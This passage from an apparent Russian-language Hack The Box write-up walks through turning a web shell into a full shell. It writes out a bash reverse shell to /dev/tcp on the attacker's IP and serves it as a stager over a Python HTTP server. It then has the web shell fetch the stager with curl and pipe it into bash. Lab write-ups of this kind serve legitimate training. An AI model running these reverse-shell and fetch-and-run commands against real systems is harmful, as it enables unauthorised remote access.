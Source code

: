 Перейдите по URL-адресу нашей полезной нагрузки ave.php и проверьте выполнение команды.
У нас есть доступ к веб-шеллу, но нам нужен полный доступ к оболочке.

## 11. Запустите обратную оболочку с помощью метода обратного запуска (stager).

Создайте каталог www и создайте файл с этим содержимым.

```bash

bash -i >& /dev/tcp/10.10.14.187/9001 0>&1

```
**Не забудьте сменить его на свой IP для HTB VPN**

```

Выполните в этом каталоге эту команду для запуска простого http-сервера.

└─$ python3 -m http.server                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
Это необходимо для загрузки сценария оболочки с нашей полезной нагрузкой обратной оболочки.

## 12. Запустить обратную оболочку

Давайте перехватим команду веб-шелла с помощью burp и введем туда команду для загрузки и запуска нашей обратной оболочки.
через команду curl с перенаправлением вывода на стандартный ввод в интерпретаторе bash

![plot](./screens/8.png)

```

└─$ python3 -m http.server                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.242 - - [07/Dec/2023 16:13:12] "GET /shell.sh HTTP/1.1" 200 -

```
Наш стейджер загружается в систему и выполняется с помощью bash, и у нас есть оболочка.
